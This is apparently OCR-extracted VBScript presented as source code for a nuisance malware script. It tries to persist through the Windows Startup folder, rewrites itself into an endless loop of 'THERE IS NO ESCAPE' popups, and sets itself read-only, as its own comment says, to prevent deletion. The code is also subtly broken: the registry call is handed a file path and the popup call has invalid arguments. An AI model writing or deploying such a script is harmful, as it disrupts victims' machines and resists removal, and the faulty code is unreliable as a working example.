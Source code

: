 Const SW_HIDE = 0
Const SW_SHOWMINNOACTIVE = 7

Const SCREEN_WIDTH = 1920
Const SCREEN_HEIGHT = 1080

Set objShell = CreateObject("WScript.Shell")
strScriptPath = WScript.ScriptFullName

Sub CreateStartupEntry()
    Dim objShell, strStartupPath, strScriptName
    Set objShell = CreateObject("WScript.Shell")
    strStartupPath = objShell.ExpandEnvironmentStrings("%APPDATA%\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\")
    strScriptName = "popup.vbs"
    objShell.RegWrite strStartupPath & strScriptName, strScriptPath, "REG_SZ"
End Sub

Sub CreateScriptFile()
    Dim objFSO, objFile
    Set objFSO = CreateObject("Scripting.FileSystemObject")
    Set objFile = objFSO.CreateTextFile(strScriptPath)
    objFile.Write _
    "Const SW_HIDE = 0" & vbCrLf & _
    "Const SW_SHOWMINNOACTIVE = 7" & vbCrLf & _
    "Const SCREEN_WIDTH = 1920" & vbCrLf & _
    "Const SCREEN_HEIGHT = 1080" & vbCrLf & vbCrLf & _
    "Set objShell = CreateObject(""WScript.Shell"")" & vbCrLf & _
    "Do" & vbCrLf & _
    "   leftPos = Int(SCREEN_WIDTH * Rnd)" & vbCrLf & _
    "   topPos = Int(SCREEN_HEIGHT * Rnd)" & vbCrLf & vbCrLf & _
    "   objShell.Popup ""THERE IS NO ESCAPE"", , , , , SW_HIDE, leftPos, topPos" & vbCrLf & _
    "   WScript.Sleep 1000" & vbCrLf & _
    "Loop"
    objFile.Close
    ' Set the read-only attribute to prevent deletion
    objFSO.GetFile(strScriptPath).Attributes = objFSO.GetFile(strScriptPath).Attributes Or 1 ' 1 represents read-only attribute
End Sub
